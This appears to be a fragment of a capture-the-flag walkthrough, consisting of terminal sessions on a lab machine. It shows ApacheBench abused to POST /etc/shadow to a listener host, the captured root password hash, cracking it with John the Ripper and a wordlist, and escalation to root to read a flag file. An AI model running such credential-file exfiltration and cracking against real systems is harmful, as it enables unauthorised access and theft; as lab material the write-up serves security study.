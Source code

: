 ```
jarjar@jarjar:~$ ab -p /etc/shadow http://192.168.247.128:1337/shadow

This is ApacheBench, Version 2.3 <$Revision: 1913912 $>
Copyright 1996 Adam Twiss, Zeus Technology Ltd, http://www.zeustech.net/
Licensed to The Apache Software Foundation, http://www.apache.org/

Benchmarking 192.168.247.128 (be patient).....done
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.224] 51278
POST /shadow HTTP/1.0
Content-length: 941
Content-type: text/plain
Host: 192.168.247.128:1337
User-Agent: ApacheBench/2.3
Accept: */*

root:$y$j9T$06k8CpwIHWwvgOizpHNH30$VTfTBXChehaq8kPRI5Lhh54LIRXdbkoP3ZxOGQaxqZ0:19926:0:99999:7:::
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'root:$y$j9T$06k8CpwIHWwvgOizpHNH30$VTfTBXChehaq8kPRI5Lhh54LIRXdbkoP3ZxOGQaxqZ0' > hash.txt

┌──(nabla㉿kali)-[~]
└─$ john ./hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                             
No password hashes loaded (see FAQ)
❌

┌──(nabla㉿kali)-[~]
└─$ john ./hash.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt

[SNIP]

pimpin           (root)  
```

```
jarjar@jarjar:~$ su

Password: 
root@jarjar:/home/jarjar# 
```

```
root@jarjar:/home/jarjar# ls -la /root

total 32
drwx------  4 root root 4096 Jul 22  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Jul 21  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Feb 12  2024 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
lrwxrwxrwx  1 root root    9 Jul 22  2024 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r--------  1 root root   33 Jul 21  2024 r00t.txt
drwx------  2 root root 4096 Feb 12  2024 .ssh

root@jarjar:/home/jarjar# cat /root/r00t.txt

```